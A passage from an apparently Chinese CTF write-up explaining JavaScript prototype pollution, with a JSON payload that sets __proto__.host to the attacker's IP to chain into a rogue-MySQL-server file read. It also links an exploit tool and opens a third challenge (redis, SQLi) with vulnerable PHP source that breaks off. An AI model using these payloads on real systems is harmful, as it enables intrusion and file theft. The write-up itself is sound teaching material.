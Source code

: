 先来说一说JS原型链污染：

先贴一篇学习链接：[>>戳这里](https://www.anquanke.com/post/id/176884)

简单来讲，JS的语言特性是“万物皆为对象（object.prototype）”，这也是JS“基于对象”的解释

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120164807.png)

- 在javascript中一切皆对象，因为所有的变量，函数，数组，对象 都始于object的原型即object.prototype。同时，在js中只有类才有prototype属性，而对象却没有，对象有的是__proto__和类的prototype对应

如果我们访问一个对象里面属性，JS则会在这个对象里面查找这个属性，如果不存在，那么就会返回上一级查找。

那么原型链污染就是：

在我们想要利用的代码之前的赋值语句如果可控的话，我们进行 ——__proto__ 赋值，之后就可以利用代码了

很明显，这道题我们可以污染host属性

```
{"username":"admin","password":"1","__proto__":{"host":"我的ip"}}
```

这里为什么要污染host属性呢，其实是为了触发下一个漏洞——[Mysql任意文件读取漏洞](https://www.anquanke.com/post/id/173039)。

直接上exp：[Rogue-MySql-Server-master](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/poc%26tool/Rogue-MySql-Server-master.zip)

修改对应端口就行。

 

 

 

 

### **0x03第三题**

考点：

1. parse_url解析漏洞、PHP协议容错性、简单sqli、file_put_contents漏洞
2. 简单内网渗透、redis未授权访问漏洞、redis主从复制漏洞

打开题目即送源码：

```
<?php
//it may help u
echo "<h1>WELCOME 23333333333</h1>"."\n";
$url = $_SERVER["HTTP_REFERER"];
$r = parse_url($url);
if(!empty($r['host']) && $r['host'] === 'localhost'){
  readfile($url);//  hint.txt
}
else{
  echo 'ONLY FROM LOCALHOST!!!!'."<br>";
}

//only admin can do it
$password = $_GET['password'];
$username = $_GET['username'];
$content = addslashes($_GET['content']);

if($username === "******" && $password === "******"){
  echo 'now_you_are_admin'."<br>";
  $sandbox = './sandbox/' . md5("x" . $_SERVER['REMOTE_ADDR']);
  @mkdir($sandbox);
  @chdir($sandbox);
  echo $sandbox."<br>";
  if(!file_exists("admin.php")){
    file_put_contents('admin.php', "<?php \$secret = 'xxx'; ?>");
  }
```